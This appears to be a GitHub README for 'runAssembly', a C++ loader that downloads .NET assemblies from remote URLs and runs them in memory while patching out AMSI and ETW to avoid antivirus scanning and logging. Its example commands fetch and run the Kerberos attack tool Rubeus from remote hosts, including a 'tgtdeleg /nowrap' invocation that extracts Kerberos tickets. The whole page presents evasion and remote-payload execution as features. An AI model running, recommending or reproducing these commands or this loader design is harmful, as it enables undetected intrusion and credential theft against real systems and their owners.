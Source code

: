 # Assembly Loader Tool

A C++ tool for loading and executing .NET assemblies from remote URLs with built-in AMSI/ETW bypass capabilities.

This tool must be compiled with C++17 standard support.
## Features

- **Remote Assembly Execution**: Load and run .NET assemblies directly from HTTP/HTTP URLs
- **AMSI Bypass**: Built-in patch for Anti-Malware Scan Interface
- **ETW Bypass**: Built-in patch for Event Tracing for Windows
- **TLS Support**: Secure HTTPS connections
- **Argument Passing**: Forward custom arguments to the loaded assembly

## Usage

```cmd
.\runAssembly.exe --url <http://host:port/path> [--] [extra_args]
```
![](./runAssembly.png)

![](https://www.youtube.com/watch?v=I_lFJISol0Q)

### Options

| Option | Description |
|--------|-------------|
| `--url` | Full URL to the assembly (http or https) |
| `--help` | Show help message |
| `--` | Separator for extra arguments passed to the assembly |

**Note**: All options must appear before the `--` separator.

## Examples

```cmd
# Load assembly from HTTP URL
.\runAssembly.exe --url http://127.0.0.1:8000/rubeus.exe

# Load assembly from HTTPS URL with TLS enabled
.\runAssembly.exe --url https://example.com/rubeus.exe

# Load assembly and pass arguments to it
.\runAssembly.exe --url http://localhost/rubeus.exe -- klist

# Load from HTTPS with TLS and pass multiple arguments
.\runAssembly.exe --url https://127.0.0.1/rubeus.exe -- tgtdeleg /nowrap
```

## Security Features

- **AMSI Patch**: Automatically bypasses AMSI scanning for the loaded assembly
- **ETW Patch**: Disables Event Tracing for Windows to prevent detection

